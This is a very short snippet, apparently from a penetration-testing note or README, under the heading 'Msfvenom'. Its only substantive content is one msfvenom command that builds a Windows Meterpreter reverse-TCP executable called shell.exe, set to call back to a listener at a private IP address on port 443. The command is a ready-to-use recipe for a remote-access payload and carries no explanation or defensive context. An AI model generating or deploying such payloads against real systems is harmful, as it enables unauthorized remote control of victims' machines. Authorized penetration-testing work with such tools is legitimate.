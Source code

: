 # Msfvenom
Create with:

msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=172.16.14.112 LPORT=443 -b "\x00" -f exe -o shell.exe

